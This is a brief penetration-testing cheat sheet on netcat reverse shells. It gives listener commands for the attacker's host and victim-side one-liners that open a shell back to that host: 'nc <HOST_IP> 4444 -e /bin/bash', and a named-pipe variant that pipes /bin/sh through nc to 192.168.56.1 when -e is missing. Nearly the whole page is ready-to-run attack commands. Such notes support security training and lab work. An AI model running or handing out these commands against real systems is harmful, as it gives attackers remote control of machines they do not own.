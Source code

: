 # Reverse Shells

### Netcat

There are different variants of netcat, so if things doesn't work, you probably want to get some error output from the victim (`2> /tmp/err`)

```bash
# Host
nc -lvp 4444
# Host (macOS)
nc -v -l 4444

# Victim
nc <HOST_IP> 4444 -e /bin/bash
```

Sometimes the victim machine might not have `-e` argument enabled, then we can hack our way using the following command

_Credit:_ [_https://spencerdodd.github.io/2017/02/21/reverse\_shell\_without\_nce/_](https://spencerdodd.github.io/2017/02/21/reverse\_shell\_without\_nce/)

```bash
# Create a new file system node, with type pipe
mknod /tmp/backpipe p
# Then we create this nice cycle of pipe
# First part will redirect stdout of backpipe to /bin/sh, which is used to execute commands
# Second part will redirect output of nc to the pipe, which connects to the first part for command execution
# Result of the command then gets piped to nc using `|` operator, finishing the cycle
/bin/sh 0</tmp/backpipe | nc 192.168.56.1 4444 1>/tmp/backpipe

# Combined, you can have a nice script like
rm /tmp/backpipe && mknod /tmp/backpipe p && /bin/sh 0</tmp/backpipe | nc 192.168.56.1 4444 1>/tmp/backpipe
```
